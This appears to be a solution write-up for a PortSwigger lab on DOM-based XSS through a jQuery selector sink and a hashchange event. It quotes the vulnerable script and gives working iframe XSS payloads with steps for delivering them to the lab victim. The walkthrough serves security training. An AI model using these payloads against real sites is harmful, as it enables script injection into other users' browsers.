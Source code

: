 # [Lab: DOM XSS in jQuery selector sink using a hashchange event](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-selector-hash-change-event)

- Challenge information:
  - <img width="656" height="151" alt="image" src="https://github.com/user-attachments/assets/0ea0707c-8ead-43d6-95c6-daaef0dcd34f" />
- Solution:
  - <img width="1174" height="884" alt="image" src="https://github.com/user-attachments/assets/0c0041d5-5984-4d40-b55b-8942e7e6b59d" />
  - Website has an autoscroll implemented and we need to abuse that to make the browser execute the print() function
  - Relevant JavaScript code in HTML:
  ```javascript
  <script>
  $(window).on('hashchange', function(){
  var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
  if (post) post.get(0).scrollIntoView();
  });
  </script>
  ```
  - JQuery hashchange event tracks URL history changes
  - If a a change happens, `decodeURIComponent` will be called on the `window.location.hash` -> If that part of the page exists, the browser will scroll to it
  - Exploit code: `<iframe src="https://vulnerable-website.com#" onload="this.src+='<img src=1 onerror=alert(1)>'">`
    - Exploit code is sent to a victim (the lab's exploit server)
    - Initial src has an empty hash (# followed by nothing), then the src is updated with a new hash using the onload function
    - This triggers the hashchange listener
    - Result: website calls `decdoeURIComponent` on the new value (which is an XSS) and the alert() function is triggered
    - New exploit: `<iframe src="https://0a20009d04571dc2807f128a001e0075.web-security-academy.net/#" onload="this.src+='<img src=1 onerror=print(1)>'">`
  - <img width="1174" height="884" alt="image" src="https://github.com/user-attachments/assets/6fcc34a3-8dec-45ed-90ba-4495544475d5" />
  - When clicking on "Store" and then "View exploit": <img width="1174" height="624" alt="image" src="https://github.com/user-attachments/assets/6ca86abd-7b72-4194-8611-3e9c2d5c6284" />
  - Then click "Deliver exploit to victim": <img width="1174" height="321" alt="image" src="https://github.com/user-attachments/assets/f4cadcf0-9271-4411-a9db-28d01bfef190" />


- Explanation:
  - DOM-based XSS attack: Malicious input will be passed to a sink that supports dynamic code execution through JQuery
